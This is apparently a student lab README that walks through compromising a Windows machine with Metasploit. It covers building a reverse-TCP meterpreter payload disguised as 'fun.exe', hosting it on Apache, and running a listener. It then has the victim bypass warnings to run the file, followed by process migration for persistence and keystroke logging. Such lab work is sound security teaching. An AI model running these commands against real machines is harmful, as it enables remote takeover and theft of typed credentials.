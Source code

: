 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig.
![image](https://github.com/Migaleyy/Compromising-windows-using-Metasploit/assets/118262199/7677bedc-20bb-4951-8252-0d2c118d7ed7)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.
![image](https://github.com/Migaleyy/Compromising-windows-using-Metasploit/assets/118262199/f06df730-9b4d-4ce5-8550-886e4308b31b)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Migaleyy/Compromising-windows-using-Metasploit/assets/118262199/fd7d12eb-85c2-4279-a2b8-5e76e2cf881c)
Start apache server sudo systemctl apache2 start
![image](https://github.com/Migaleyy/Compromising-windows-using-Metasploit/assets/118262199/350bad64-2ed4-46f5-9181-6398baf4796d)
Check the status of apache2
![image](https://github.com/Migaleyy/Compromising-windows-using-Metasploit/assets/118262199/6178d93d-75ab-462d-8609-14166bbd7a4d)
Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Migaleyy/Compromising-windows-using-Metasploit/assets/118262199/40b4935a-d4f6-438d-b50e-9ae2f06f3acb)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Migaleyy/Compromising-windows-using-Metasploit/assets/118262199/ff7a5838-4725-410b-9a35-b5786e0f90a5)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Migaleyy/Compromising-windows-using-Metasploit/assets/118262199/2fbb33e0-27f2-4036-8eae-a3a2c9be6605)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted. 

![image](https://github.com/Migaleyy/Compromising-windows-using-Metasploit/assets/118262199/72d818dd-231d-4bf5-93d4-1b1cd7be9ade)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Migaleyy/Compromising-windows-using-Metasploit/assets/118262199/0c51235c-70e9-4dcc-9010-a68e0233f354)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Migaleyy/Compromising-windows-using-Metasploit/assets/118262199/f2acd028-a648-40bb-b999-ee9810a0bb44)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

